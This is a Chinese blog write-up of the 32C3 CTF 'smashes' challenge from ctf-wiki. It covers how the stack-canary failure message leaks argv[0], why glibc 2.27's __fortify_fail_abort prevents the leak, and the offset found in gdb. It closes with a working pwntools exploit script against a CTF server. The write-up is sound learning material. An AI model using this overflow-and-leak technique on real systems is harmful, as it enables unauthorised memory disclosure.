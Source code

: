 ```yaml
---
layout: post
title: "来来来，我们来聊聊ctfwiki上的stack-smash "
date: 2018-09-3
excerpt: "我为什么复现不了"
tags: [pwn, ctfwiki,SSP,stack,CTF]
feature: https://i.ytimg.com/vi/uSC3guWOvpk/maxresdefault.jpg
comments: true
---
```


# Stack Smashing Protector (SSP):__fortify_fail ->__fortify_fail_abort 

ctfwiki上的一道例题32C3 CTF smashes
https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/others/#stack-smash

这个姿势很有意思，通过canary保护的报错来leak出我们想要的信息。

报错时会调用以下函数：
```
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}



void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
直接会输出错误信息。

具体的原理和操作可以看ctfwiki或者直接搜32C3 CTF smashes的WP

然而我复现的时候发现在自己的虚拟机上只会输出
![Alt text](http://thyrsi.com/t6/366/1536070637x-1566657657.png)


查了资料发现和libc有关（？）

用的libc-2.27.so
![Alt text](http://thyrsi.com/t6/366/1536070669x-1566657657.png)

原因是我的__stack_chk_fail是这样的：
```
gdb-peda$ disassemble  __stack_chk_fail
Dump of assembler code for function __stack_chk_fail:
   0x00007ffff7eec450 <+0>:	lea    rsi,[rip+0x78be8]        # 0x7ffff7f6503f
   0x00007ffff7eec457 <+7>:	sub    rsp,0x8
   0x00007ffff7eec45b <+11>:	xor    edi,edi
   0x00007ffff7eec45d <+13>:	call   0x7ffff7eec470 <__GI___fortify_fail_abort>
```
它没有使用__fortify_fail，而是使用了fortify_fail_abort来防止argv [0]的泄露。



fortify_fail_abort是这样的
```
__fortify_fail_abort (_Bool need_backtrace, const char *msg)
{
  /* The loop is added only to keep gcc happy.  Don't pass down
     __libc_argv[0] if we aren't doing backtrace since __libc_argv[0]
     may point to the corrupted stack.  */
  while (1)
    __libc_message (need_backtrace ? (do_abort | do_backtrace) : do_abort,
                    "*** %s ***: %s terminated\n",
                    msg,
                    (need_backtrace && __libc_argv[0] != NULL
                     ? __libc_argv[0] : "<unknown>"));
}
//https://code.woboq.org/userspace/glibc/debug/fortify_fail.c.html#40
```
可见，wihile循环里，``__libc_message ``的第一个参数从``2``变成了
``need_backtrace ? (do_abort | do_backtrace) : do_abort``

其中``do_abort``和``do_backtrace``分别是1和2，定义如下
```
enum __libc_message_action
{
  do_message        = 0,                /* Print message.  */
  do_abort        = 1 << 0,        /* Abort.  */ 
  do_backtrace        = 1 << 1        /* Backtrace.  */
};
```

就是取消了默认回溯->报错信息显示argv [0]这样子。


想用centos做，反正我centos的libc比较……古老

![Alt text](http://thyrsi.com/t6/366/1536070693x-1566657657.png)

确实也能够leak出程序名（？）

![Alt text](http://thyrsi.com/t6/366/1536070722x-1566657657.png)

但是centos没有pwntools也懒得装

直接怼远程试试好了

先找buf到argv[0]的偏移，直接r然后输入个ABC然后第二次输入那里ctrl+C终端看此时的栈。

![Alt text](http://thyrsi.com/t6/366/1536070741x-1566657657.png)

```
buf：0x7fffffffdf60
argv[0]:0x7fffffffe0a8 --> 0x7fffffffe178 --> 0x7fffffffe463 ("/root/Desktop/wiki/smashes")

hex(0x7fffffffe178 - 0x7fffffffdf60) = 0x218L
```

和ctf上描述的相符

然后find CTF 找到flag_addr

得到exp如下：

```
from pwn import *

context.log_level = 'debug'

io  = remote('pwn.jarvisoj.com', 9877)

flag_addr = 0x400d21


pattern = 'A'*0x218

payload = pattern + p64(flag_addr)


io.sendlineafter('name?',payload)

io.sendlineafter('flag:','')
io.interactive()
```

没成。

然后这里还有一个坑

……啊这里是64位的程序要用p64而不是p32，做32x做傻了。

还有一个就是

![Alt text](http://thyrsi.com/t6/366/1536070765x-1566657657.png)


然而用的应该是``0x400d20``不然会少一个字母（。）

所以改下这两个地方就可以了。

以为会遇到

设置环境变量``LIBC_FATAL_STDERR_=1``才能实现将标准错误信息通过管道输出到远程shell中

的坑然而并没有。
这个坑这里有说：
https://blog.csdn.net/happyorange2014/article/details/50459201

以上




参考：

1.https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/4.12_stack_chk_fail.html

2.https://qiita.com/sei0o/items/55db337b0829367a2052

3.http://site.pi3.com.pl/papers/ASSP.pdf


看第三个链接可以i意思意思继续深入了解一下SSP，里面介绍了不少和SSP相关的一些攻击。














